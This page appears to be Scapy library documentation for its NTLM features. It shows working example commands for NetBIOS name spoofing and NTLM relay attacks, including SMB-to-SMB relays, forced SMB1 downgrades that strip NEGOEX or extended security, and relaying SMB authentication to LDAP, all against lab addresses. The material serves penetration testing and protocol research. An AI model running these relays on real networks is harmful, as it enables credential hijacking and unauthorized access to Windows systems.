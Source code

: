NTLM
====

Scapy provides dissection & build methods for NTLM and other Windows mechanisms.
In particular, the ``ntlm_relay`` command allows to perform some NTLM relaying attacks.

Examples
________


**Requirement: Answer to all netbios requests with the local IP**

.. code::
    netbios_announce(iface="virbr0")

**SMB <-> SMB: Perform a SMB2 relay**

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0")

**SMB <-> SMB: SMB relay with force downgrade to SMB1**

.. note::
    ``server_kwargs={"REAL_HOSTNAME":"WIN1"}`` is compulsory on SMB1 if the name that you are spoofing is different from the real name. Set this to avoid getting a ``STATUS_DUPLICATE_NAME``

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"})

**SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop NEGOEX**

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"PASS_NEGOEX": False, "REAL_HOSTNAME":"WIN1"})

**SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop extended security**

This probably won't work.

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"}, DROP_EXTENDED_SECURITY=True)

**SMB2 <-> LDAP: relay SMB's NTLM to an LDAP server**

.. code::
    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0")
